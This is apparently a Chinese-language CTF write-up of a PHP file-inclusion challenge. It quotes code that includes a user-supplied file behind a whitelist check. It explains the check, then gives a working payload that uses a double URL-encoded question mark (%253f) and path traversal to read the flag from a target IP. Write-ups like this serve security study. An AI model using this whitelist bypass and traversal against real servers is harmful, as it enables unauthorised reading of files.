 ```php

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && ReadFile::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>CTF CHALLENGE";
    }  
?>
```

需要传入的file：非空且为字符串，并且ReadFile类的checkFile方法判断为真即可包含文件

那重点看这个ReadFile类的checkFile方法

1. `$page`未定义或非字符串则返回false
2. `$page` 匹配 `$whitelist` 中的某个值则返回true
3. `$_page`赋值为`$page`的0到第一个问号之间的字符串，若`$_page` 匹配 `$whitelist` 中的某个值则返回true
4. 对`$_page`url解码后赋值为：`$page`的0到第一个问号之间的字符串，若`$_page` 匹配 `$whitelist` 中的某个值则返回true

那么使其为true就很简单了

构造payload，目的是通过第三次验证触发true

source.php和hint.php都在$whitelist里，用于截断

%253f是问号二次url编码的结果，因为浏览器会进行一次url解码，所以要二次编码来触发第三次判断的url解码

```
http://8.130.27.133/web6/source.php?file=
source.php%253f/../../../../../../flag
或
hint.php%253f/../../../../../../flag
```

反正就是这样了hh

![](https://i.loli.net/2021/09/21/jmaKCcgL9PRVW7f.png)

